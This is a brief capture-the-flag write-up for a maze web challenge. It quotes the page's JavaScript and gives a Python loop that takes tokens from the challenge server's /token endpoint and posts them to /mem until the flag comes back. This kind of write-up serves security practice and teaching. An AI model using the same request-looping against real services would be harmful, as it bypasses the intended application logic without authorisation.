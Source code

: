 ```javascript
}

function move_left() {
  let cell = get_cell(x - 1, y);
  if (cell == null) return;
  if (x == 1 || cell.style.borderRightStyle != "hidden") return;
  remove_x();
  x -= 1;
  add_x();
  check_data();
}
```
Our goal is to leak some memory and find the flag. The interesting parts are
```javascript
function Token() {
  $.get("/token", function(data, status) {
    $("#token").html(data);
  });
}
```
for token disclosure and

```javascript
function check_data() {
  if (x === 1 && y === maxRows) {
    $.post("/mem", { token: $("#token").html() }).done(function(data) {
      alert("Memory: " + data);
    });
  }
}
```
for the memory leak. Let's just try to get a token from */token* and post it to */mem* until we get the real flag.
```python
#!/bin/python
import requests
done = False
while not done:
    headers = {
        'Connection': 'keep-alive',
        'Accept': '*/*',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
        'X-Requested-With': 'XMLHttpRequest',
        'Referer': 'http://chal.ctf.b01lers.com:3001/maze',
        'Accept-Language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
    }

    response = requests.get('http://chal.ctf.b01lers.com:3001/token', headers=headers, verify=False)
    token = response.text
    response = requests.post('http://chal.ctf.b01lers.com:3001/mem', headers=headers, data={'token' : token}, verify=False)
    if not "Try again" in response.text:
        print("[*] Found flag : {}".format(response.text))
        done = True
```
